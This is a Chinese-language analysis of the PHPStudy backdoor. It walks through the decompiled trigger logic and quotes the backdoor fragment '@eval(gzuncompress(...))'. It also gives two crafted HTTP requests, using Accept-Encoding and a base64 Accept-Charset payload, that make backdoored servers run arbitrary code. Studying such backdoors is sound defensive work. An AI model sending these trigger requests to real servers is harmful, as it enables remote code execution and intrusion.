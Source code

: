 #### 静态分析传参数据

通过F5查看代码，分析代码流程，判断条件是有全局变量且有HTTP\_ACCEPT\_ENCODING的时候进入内部语句。接下来有两个主要判断来做正向连接和反向连接的操作。主要有两个部分。

第一部分，正向连接：判断ACCEPT\_ENCODING如果等于gzip,deflate，读取ACCEPT\_CHARSE的内容做base64解密，交给zend\_eval\_strings()函数可以执行任意恶意代码。

构造HTTP头，把Accept-Encoding改成Accept-Encoding:
gzip,deflate可以触发第一个部分。

    GET /index.php HTTP/1.1
    Host: www.0-sec.org
    …..
    Accept-Encoding: gzip,deflate
    Accept-Charset:cHJpbnRmKG1kNSgzMzMpKTs=
    ….

第二部分，反向连接：判断ACCEPT\_ENCODING如果等于compress,gzip，通过关键部分\@eval(gzuncompress(\'%s\'));可以看到拼接了一段恶意代码，然后调用gzuncompress方法执行解密。

构造HTTP头，把Accept-Encoding改成Accept-Encoding:
compress,gzip可以触发第二部分。

    GET /index.php HTTP/1.1
    Host: www.0-sec.org
    …..
    Accept-Encoding:compress,gzip
    ….

![2.jpg](./resource/Phpstudy后门(非官方后门！！！)/media/rId29.jpg)

图2：第1部分流程判断代码
